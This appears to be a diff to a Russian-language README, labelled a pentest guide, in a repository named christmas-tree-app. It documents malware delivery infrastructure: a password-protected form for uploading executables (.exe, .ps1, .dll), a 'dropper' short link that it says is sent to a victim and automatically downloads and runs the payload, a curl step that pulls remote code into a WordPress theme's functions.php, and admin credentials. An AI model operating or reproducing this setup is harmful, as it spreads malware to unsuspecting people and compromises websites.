

Before and after one commit to bubeLLL/christmas-tree-app, a Markdown page: PENTEST_README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/PENTEST_README.md
+++ b/PENTEST_README.md
@@ -6,6 +6,12 @@
 - **URL**: https://ipv6app.bar/login.php
 - **Логин**: `admin`
 - **Пароль**: `PentestAdmin2026!`
+
+### Форма загрузки Payload ⭐
+- **URL**: https://ipv6app.bar/upload_payload.php
+- **Пароль**: `UploadPayload2026!`
+- **Лимит**: 100 MB
+- **Поддержка**: Drag & Drop, прогресс, логи
 
 ### API Документация
 - **Интерактивная**: https://ipv6app.bar/api_docs.html
@@ -22,7 +28,28 @@
 
 ## 🚀 Быстрый старт
 
-### 1. Интеграция с WordPress
+### 1. Загрузить Payload ⭐ **НАЧНИТЕ ОТСЮДА**
+
+```
+1. Откройте: https://ipv6app.bar/upload_payload.php
+2. Пароль: UploadPayload2026!
+3. Перетащите ваш payload.exe или выберите файл
+4. Нажмите "Загрузить на сервер"
+5. Готово! ✅
+```
+
+**Поддерживаемые форматы:** .exe, .msi, .zip, .bat, .ps1, .dll
+
+### 2. Использование Dropper
+
+```
+# Отправить жертве короткий URL
+https://ipv6app.bar/m959xx3csx
+
+# Автоматически скачает и запустит ваш payload
+```
+
+### 3. Интеграция с WordPress (опционально)
 
 ```bash
 # Получить код
@@ -31,22 +58,13 @@ curl https://ipv6app.bar/public_api.php?engine=wordpress > integration.php
 # Добавить в functions.php вашей темы
 ```
 
-### 2. Использование Dropper
-
-```
-# Отправить жертве короткий URL
-https://ipv6app.bar/kxg7zowrfh4b
-
-# Автоматически скачает и запустит payload
-```
-
-### 3. Проверка статистики
+### 4. Проверка статистики
 
 ```
 # Войти в админ панель
 https://ipv6app.bar/login.php
 
-# Просмотреть статистику посещений
+# Просмотреть статистику посещений и загрузок
 ```
 
 ## 🔧 Основные компоненты
````
Also changed, not shown: PAYLOAD_UPLOAD_GUIDE.md (added, +254 -0 lines).
